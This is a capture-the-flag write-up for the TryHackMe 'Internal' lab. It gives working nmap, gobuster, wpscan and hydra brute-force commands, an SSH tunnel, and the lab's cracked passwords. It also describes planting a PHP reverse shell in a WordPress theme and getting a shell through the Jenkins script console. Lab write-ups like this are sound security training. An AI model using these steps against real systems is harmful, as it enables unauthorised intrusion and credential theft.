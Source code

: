 # Recon
```
sudo nmap -sV -p- -Pn -oN nmap.txt -O 10.10.23.154
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/TryHackMe/Internal/assets/1.png">

We run gobuster to discover directories:
```
gobuster dir -u http://10.10.23.154 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
```
/blog                 (Status: 301) [Size: 313] [--> http://10.10.23.154/blog/]
/wordpress            (Status: 301) [Size: 318] [--> http://10.10.23.154/wordpress/]
/javascript           (Status: 301) [Size: 319] [--> http://10.10.23.154/javascript/]
/phpmyadmin           (Status: 301) [Size: 319] [--> http://10.10.23.154/phpmyadmin/]
/server-status        (Status: 403) [Size: 278]   
```

After browsing to http://10.10.23.154/wordpress we find a link to internal.thm.
We add internal.htm to our /etc/hosts so we can see the actual blog.

# Enumeration
We use wpscan to do some enumeration on the CMS.
```
wpscan --url http://internal.thm/blog/ -et -ep -eu
```

We found a user: admin and version 5.4.2, which is not vulnerable.
The theme is out of date. Version 2.3 but current version is 2.8
```
wpscan --url internal.thm/wordpress/ --passwords rockyou.txt --usernames admin --max-threads 50
```
```

[!] Valid Combinations Found:
 | Username: admin, Password: my2boys
 ```

After login in the Wordpress page we found a post with:
```
william:arnold147
```

I tried using SSH to connect with these credentials but without any luck.

# Initial Foothold
I know you can use themes pages to create a php reverse shell. I changed 404.php and loaded it by browsing to:
```
http://internal.thm/wordpress/wp-content/themes/twentyseventeen/404.php
```

We got a shell withc user www-data.

We found a config file in /etc/phpmyadmin
```
$dbuser='phpmyadmin';
$dbpass='B2Ud4fEOZmVq';
$basepath='';
$dbname='phpmyadmin';
$dbserver='localhost';
$dbport='3306';
$dbtype='mysql';
```

And also credentials in /opt/wp-save.txt
```
aubreanna:bubb13guM!@#123
```

We can SSH with aubreanna and got our user flag.
We also find a file called jenkins which tells us that:
```
Internal Jenkins service is running on 172.17.0.2:8080
```

There are no cronjobs running and sudo -l isn't possible.
I tried using ssh tunneling to gain access to the Jenkins service.
```
ssh -L 4445:localhost:8080 aubreanna@10.10.23.154
```

Let's use hydra to bruteforce the login:
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt localhost -s 4445 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password"
```
```
[4445][http-post-form] host: localhost   login: admin   password: spongebob
We found a password
```


We go to Manage > Tools and Actions > Script Console
Run reverse shell from
https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6
. Change cmd.exe to bash for linux.

Found file in /opt/ with root pass
```
root:tr0ub13guM!@#123
```

Change user on SSH session with user aubreanna:
```
su root 
```
Got root flag.



